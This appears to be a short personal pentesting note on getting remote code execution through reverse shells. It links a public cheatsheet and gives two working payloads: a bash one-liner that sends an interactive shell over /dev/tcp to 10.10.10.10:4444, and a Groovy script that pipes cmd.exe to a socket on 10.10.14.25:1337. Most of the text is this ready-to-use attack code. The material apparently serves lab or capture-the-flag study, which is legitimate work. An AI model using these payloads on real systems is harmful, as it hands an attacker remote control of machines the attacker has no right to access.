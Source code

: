 
### General Notes

> Used to get remote code execution (RCE).

Can be found online: [Cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md).

---

### Finding the Right Reverse shell

Using the cheatsheet above, it has different techniques. Check first for the presence of that programming language or tool on the system before running these commands to make sure they can work.

> For example, to run the `python` one-liner, first make sure we can execute python on the target machine. Might work for `python` and not `python3`, so try all cases.

----
##### Bash Script to connect to our machine

> Set the [[IP]] address and [[Port]].
```
#!/bin/bash
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
```
>`script.sh`

> Make sure the file is executable.
```shell
chmod +x script.sh
```

---
### Groovy script to connect to our machine

``` groovy
String host="10.10.14.25";
int port=1337;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

---
